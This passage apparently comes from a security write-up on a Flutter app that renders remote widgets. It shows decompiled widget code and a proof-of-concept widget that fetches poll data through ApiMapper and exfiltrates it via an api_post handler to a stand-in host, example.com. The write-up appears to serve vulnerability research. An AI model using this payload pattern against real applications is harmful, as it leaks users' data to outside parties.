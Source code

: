 ```dart
                    }),
                    onPressed: event api_post {
                      path: data.data.apiVote,
                      body: {selection: loop0.text}
                    }
                  }),
                  padding: [0.0, 5.0, 10.0, 0.0]
                }),
                Text({
                  text: loop0.count
                })
              ]}),
            
            ...
            
          ]
        }),
      null: ApiMapper({
        url: data.data.apiGet,
        jsonKey: options,
        dataKey: poll_options,
        onLoaded: set state.loaded = true
      })
    }]
  })
```

Notice that `ApiMapper` makes a GET request to the specified `apiGet` URL. The response data is then saved in `data.<dataKey>`, as we can see from the loop accessing `data.poll_options`.

Further, the `onPressed` event handler, `api_post`, seemingly provides a mechanism for us to exfiltrate our data.

For example, the following will fetch the poll options and exfiltrate them to `example.com`.

```dart
import core.widgets;
import core.material;
import local;

widget root { loaded: false } = Container(
  color: 0xFFF,
  child:
      switch state.loaded {
        true: 
          TextButton(
            child: Text(
              text: "HI",
            ),
            onPressed: event "api_post" {
              path: "@example.com",
              body: {
                selection: data.apiData
              }
            }
          ),
        false:
          ApiMapper(
            url: "/api/poll/options?poll=4b06175d-7f78-44b1-a132-183d6707a33a",
            jsonKey: "options",
            dataKey: "apiData",
            onLoaded: set state.loaded = true
          )
      }
);
```